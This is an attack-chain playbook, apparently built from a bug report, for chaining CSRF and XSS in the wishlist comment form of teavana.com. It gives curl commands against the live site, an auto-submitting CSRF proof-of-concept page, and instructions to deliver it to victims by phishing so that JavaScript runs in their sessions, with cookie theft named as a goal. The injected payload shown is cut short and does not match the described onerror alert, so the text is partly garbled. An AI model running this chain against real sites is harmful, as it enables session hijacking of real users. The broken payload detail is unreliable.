

# Chained CSRF and Reflected XSS for Arbitrary JavaScript Execution in Teavana Wishlist Comments

Multi-stage attack chain demonstrating exploitation of unsanitized user input in the wishlist comment module on teavana.com, combined with CSRF to achieve global reflected XSS.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 6 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Burp-Suite]]

### Target Environment

- Web platform on https://www.teavana.com
- Demandware (Salesforce Commerce Cloud) tech stack
- Authenticated user session required

### Initial Access Requirements

- Valid user account on teavana.com
- Ability to add items to wishlist
- Network access to the site

## Detailed Attack Procedures

### Step 1: Access Teavana Wishlist and Comment Form
procedure: [[procedures/Access-Teavana-Wishlist-and-Comment-Form]]

**Objective**: Set up the wishlist environment and load the comment submission form to prepare for payload injection.

**Instructions**: First, add an item to the wishlist and navigate to the wishlist page. Then, click 'ADD COMMENTS' on the wishlisted product to load the form.

**Expected Output**: The comment form loads via POST to /on/demandware.store/Sites-Teavana-Site/default/Wishlist-Comments/:id.

**Success Indicators**:
- Wishlist page accessible at https://www.teavana.com/us/en/my-wishlist
- Comment form visible and ready for submission

### Step 2: Inject XSS Payload in Wishlist Comment
procedure: [[procedures/Inject-XSS-Payload-in-Wishlist-Comment]]

**Objective**: Submit a malicious payload that breaks out of the textarea and injects executable JavaScript, demonstrating the reflected XSS.

**Instructions**: Use [[commands/inject-xss-comment]] to submit the payload via POST:

```bash
curl -X POST 'https://www.teavana.com/on/demandware.store/Sites-Teavana-Site/default/Wishlist-Comments/[ID]' -d 'wishlistComment=</textarea>' -H 'Cookie: [AUTH_COOKIE]'
```

The server reflects the unsanitized input in the response.

**Expected Output**: Response contains <textarea...></textarea></textarea>, and 'Your comment is saved' message.

**Success Indicators**:
- Payload reflected without sanitization
- Comment successfully stored

### Step 3: Trigger XSS via Comment Edit
procedure: [[procedures/Trigger-XSS-via-Comment-Edit]]

**Objective**: Load the edit form to execute the injected JavaScript in the attacker's browser, confirming self-XSS.

**Instructions**: Click 'Edit Comments' on the wishlist item to reload the form with the stored payload.

**Expected Output**: The onerror handler triggers alert(1) upon loading the edit page.

**Success Indicators**:
- JavaScript alert box appears
- Arbitrary code execution confirmed in browser context

### Step 4: Capture Wishlist Comment ID for CSRF
procedure: [[procedures/Capture-Wishlist-Comment-ID-for-CSRF]]

**Objective**: Intercept a legitimate request to obtain the dynamic :id parameter needed for the CSRF PoC.

**Instructions**: Submit a normal comment using [[commands/submit-wishlist-comment]] while proxying traffic with [[tools/Burp-Suite]]:

```bash
curl -X POST 'https://www.teavana.com/on/demandware.store/Sites-Teavana-Site/default/Wishlist-Comments/[ID]' -d 'wishlistComment=Test comment' -H 'Cookie: [AUTH_COOKIE]'
```

Capture the :id from the POST URL in the proxy.

**Expected Output**: :id value extracted, e.g., Wishlist-Comments/12345.

**Success Indicators**:
- Valid :id captured
- Legitimate comment submitted successfully

### Step 5: Craft and Deliver CSRF PoC for XSS Injection
procedure: [[procedures/Craft-and-Deliver-CSRF-PoC-for-XSS-Injection]]

**Objective**: Create an HTML form that forces submission of the XSS payload without CSRF protection, injecting it into the victim's wishlist.

**Instructions**: Generate the PoC using [[commands/csrf-poc-html]] and host/deliver it to the victim (e.g., via phishing):

```bash
echo '<html><body><form action="https://www.teavana.com/on/demandware.store/Sites-Teavana-Site/default/Wishlist-Comments/[ID]" method="POST"><input type="hidden" name="wishlistComment" value="</textarea>"/><input type="submit" value="Submit request"/></form><script>document.forms[0].submit();</script></body></html>' > csrf_poc.html
```

Replace [ID] and serve the file.

**Expected Output**: Victim's browser auto-submits, adding the malicious comment.

**Success Indicators**:
- Form submission successful without token
- Malicious comment added to victim's wishlist

### Step 6: Exploit Victim Interaction to Execute XSS
procedure: [[procedures/Exploit-Victim-Interaction-to-Execute-XSS]]

**Objective**: When the victim views or edits their wishlist, execute the injected JavaScript in their authenticated session.

**Instructions**: Direct the victim to interact with the wishlist page or edit comments.

**Expected Output**: alert(1) or custom payload executes, allowing session theft or data exfiltration.

**Success Indicators**:
- JavaScript runs in victim's browser
- Potential for cookie theft or further exploitation

## Attack Chain Summary

### Key Achievements

1. Demonstrated self-XSS via unsanitized reflection in textarea
2. Elevated to global attack using CSRF due to missing token
3. Achieved arbitrary JS execution for high-impact outcomes like session hijacking

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Drive-by Compromise]] Drive-by Compromise (CSRF forcing payload submission)
- [[JavaScript]] JavaScript (XSS payload execution)

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access (CSRF to inject payload)
- [[Execution]] Execution (JavaScript via XSS)

---

*Last updated: 2023-10-01T00:00:00Z*
